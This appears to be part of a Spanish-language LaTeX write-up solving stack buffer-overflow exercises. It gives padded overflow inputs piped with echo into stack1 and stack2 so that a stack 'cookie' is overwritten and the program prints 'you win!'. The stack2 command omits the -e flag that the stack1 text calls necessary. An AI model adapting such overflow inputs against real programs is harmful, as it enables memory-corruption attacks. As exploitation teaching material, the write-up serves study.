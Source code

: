 \documentclass[a4paper,10pt]{article}
\begin{document}
\begin{lstlisting}
input = 0000000000000000000000000000000000000000
0000000000000000000000000000000000000000DCBA
echo $input | ./stack1.o
\end{lstlisting}

O escapeando y en hexadecimal:

\begin{lstlisting}
input = 0000000000000000000000000000000000000000
0000000000000000000000000000000000000000\x44\x43\x42\x41
echo -e $input | ./stack1.o
\end{lstlisting}

\bigskip

Lo que en ambos casos resultará en el output: "you win!"


\subsection{stack2}
\lstset{ language = C, numbers=left, tabsize=4, breaklines=true, frame=single }


\subsubsection{Descripción}

El stack será el mismo que el de la figura \textbf{(\ref{fig:stack1})}. La diferencia en este programa es que no inicializamos con un valor a cookie, pero al tener que sobreeescribirlo nos es indistinto.

\subsubsection{Solución}

En este caso el hexadecimal que queremos que esté en la posición sp(104) es el 0x01020305, por lo tanto una posible solución es:

\begin{lstlisting}
input = 0000000000000000000000000000000000000000
0000000000000000000000000000000000000000\x05\x03\x02\x01
echo $input | ./stack2.o
\end{lstlisting}
\bigskip

Lo que resultará en el output: "you win!"

\subsection{stack3}
\lstset{ language = C, numbers=left, tabsize=4, breaklines=true, frame=single }

\end{document}

